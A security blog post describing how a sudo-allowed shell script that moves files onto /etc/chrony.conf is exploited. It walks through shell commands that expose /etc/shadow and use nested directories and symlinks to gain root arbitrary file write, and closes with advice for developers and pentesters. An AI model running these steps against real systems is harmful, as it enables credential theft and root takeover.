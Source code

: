 ```yaml
---
layout: post
title: File Move to Privilege Escalation
date: 2021-08-22
tags: linux filesystem privesc
---
```


This post covers a PrivEsc that was found involving overlooked Linux filesystem and `mv` features.

<!--more-->

## Overview

I was trying to finish up a chain of exploitation with a Linux PrivEsc. I had a web exploit that allowed RCE through the `nginx` user.
The typical `linPEAS.sh` scipt was ran but there was nothing interesting except for a handful of sudo NOPASSWD bash scripts.
The bash scripts ranged in length and complexity. They all aimed to perform "safe" root operation from `nginx`.

## Analysis

The following was a script that I'll refer to as `script.sh` that ended up being interesting.

```sh
#!/bin/bash

if [ -e /etc/chrony.conf~ ] ; then rm -f /etc/chrony.conf~ || : ; fi
mv -f /etc/chrony.conf /etc/chrony.conf~
mv "${1}" /etc/chrony.conf
chmod --reference=/etc/chrony.conf~ /etc/chrony.conf
chown --reference=/etc/chrony.conf~ /etc/chrony.conf
```

The script moves an `nginx` provided file to `/etc/chrony.conf` and applies the same permissions as the original file, which are `root`-based.
After looking online, `chrony.conf` seems to configure system time. How could this be broken?

## Arbitrary File Read

At first, I thought I could do a race-condition that would allow to provide any permission for `chrony.conf`.
Although being a valid issue, this is not particularly beneficial. What could be done with system time control?

Building off this idea, I checked out the `chrony.conf` permissions more closely:

```
-rw-r--r-- root root chrony.conf
```

The `chrony.conf` was world readable. This prompted me to pass `/etc/shadow` and see that the file was now readable through `/etc/chrony.conf`.
Root arbitrary file read! Just got to argue that passwords are weak and crackable and I had a full chain of exploitation.

## Arbitrary File Write

Obviously, I was not satisfied. There must be a way to allow a root arbitrary file write. I was wondering what I could provide and I remembered:

"Everything is a file in Linux" - Linux 101.

What if I provide a folder, symlink, device, etc? I can name any of these to `chrony.conf` and the filesystem will behave as expected.
After testing with various combinations, I found I could break the first line with a non-empty folder.

```sh
mkdir /etc/chrony.conf~
touch /etc/chrony.conf~/pwn
rm -f /etc/chrony.conf~
```
```
rm: cannot remove '/etc/chrony.conf~': Is a directory
```

The second line could also be broken if there was a folder at the destination.

```sh
mkdir /etc/chrony.conf~
mkdir /etc/chrony.conf~/chrony.conf
mv /etc/chrony.conf /etc/chrony.conf~
```
```
mv: cannot overwrite directory '/etc/chrony.conf~/chrony.conf' with non-directory
```

With the two previous issues, I could essentially "block in place" `/etc/chrony.conf` during the script. I could make the file various Linux file types.
What if I set `/etc/chrony.conf` as a symlink to `/tmp`?

```sh
ln -s /tmp /etc/chrony.conf
touch ./pwn
mv "./pwn" /etc/chrony.conf
ls /tmp
```

Notice how that `/tmp/pwn` now exists. `mv` considers the operation as a move to a folder and keeps the name.
For this example, we targeted `/tmp` but we could easily target `/etc` or even overwrite the `script.sh`.

Therefore, we can get Root Arbitrary File Write + Root PrivEsc through:

1) Making a malicious `/pwn/chrony.conf` folder and moving it with `script.sh`.

2) Making a symlink to a target destination and moving it with `script.sh`.

3) Making a payload with the target file name and moving it with `script.sh`.

4) Profit.

This resulting payload is roughly following:

```sh
# 1
mkdir ./pwn
mkdir ./pwn/chrony.conf
./script.sh ./pwn/chrony.conf
# 2
ln -s /path/to/pwn_file ./pwn
./script.sh ./pwn
# 3
touch pwn_file
./script.sh ./pwn_file
# 4
ls /path/to
```

Note that this payload leads to "broken" system permissions because of the last two lines.
There is definitely a way to take advantage of those behaviors, I'll let you explore!

## Summary

Linux and `mv` can behave unpredictably at times.

For developers, make sure to validate user input files no matter the source.
Users will always end up willingly or unwillingly sending you input that you won't expect.

For pentesters, folders and symlinks can be interesting to send if you have a foothold in a machine.
Additionally, sometimes overlooked "basic" features can be the most dangerous.
